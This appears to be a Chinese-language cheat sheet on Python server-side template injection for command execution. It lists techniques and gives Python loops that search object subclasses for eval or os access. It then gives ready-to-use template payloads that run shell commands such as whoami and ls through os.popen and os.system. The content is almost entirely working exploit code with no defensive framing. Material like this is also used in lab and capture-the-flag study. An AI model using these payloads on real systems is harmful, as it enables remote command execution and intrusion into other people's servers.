 ####  命令执行

```
利用eval()函数导入os库执行命令
利用本身已经导入os库的类执行命令
利用warnings.catch_warnings执行命令
利用commands执行命令
```

利用eval函数执行命令

python找eval函数的类

```python
count = -1
for i in ''.__class__.__mro__[-1].__subclasses__():
	count += 1
	if "warpper" in repr(i.__init__):
		pass
	else:
		try:
			if "eval" in repr(i.__init__.__globals__['__builtins__']):
				print(count, i)
		except:
			pass
```

payload

```
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```

利用本身导入os库的类执行命令

寻找含有os库的类

```python
count = -1
for i in ''.__class__.__mro__[-1].__subclasses__():
	count += 1
	if "warpper" in repr(i.__init__):
		pass
	else:
		try:
			if "os" in repr(i.__init__.__globals__):
				print(count, i)
		except:
			pass
```

payload

```
无回显：''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
由回显：''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('whoami').read()
```
